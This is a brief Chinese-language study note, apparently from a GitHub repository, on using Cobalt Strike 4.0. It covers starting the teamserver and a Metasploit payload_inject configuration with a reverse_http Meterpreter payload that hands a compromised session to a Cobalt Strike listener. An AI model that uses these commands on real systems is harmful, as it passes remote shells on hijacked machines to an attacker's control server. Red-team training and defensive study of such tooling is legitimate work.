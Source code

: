 # CobaltStrike4.0工具学习
` @Time : 2020年11月30日, 0030 11:10`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
### 安装包内包含服务端以及客户端
```angular2html
服务端需要配置服务器IP以及密码
客户端连接时输入服务器IP以及密码即可
```


### 启动服务端命令`./teamserver IP password`
```angular2html
IP: 客户端与服务端通信的IP地址
password：客户端连接服务端时用到的密码
```
> 示例`./teamserver 192.168.184.144 123456`

## cobalt strike与msf合作
### msf反弹shell到cobalt strike
#### 前置条件
```angular2html
使用msf已经获取到shell，将shell使用background保存至sessions
```
### msf模块配置
```angular2html
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set lhost x.x.x.x               #cobaltstrike监听的ip
set lport 6789                 #cobaltstrike监听的端口 
set session 1                   #这里是获得的session的id
exploit
```

### 退出会话
```angular2html
会话需要选中后先退出，再使用remove
```




### 





> 乾坤未定,你我皆是黑马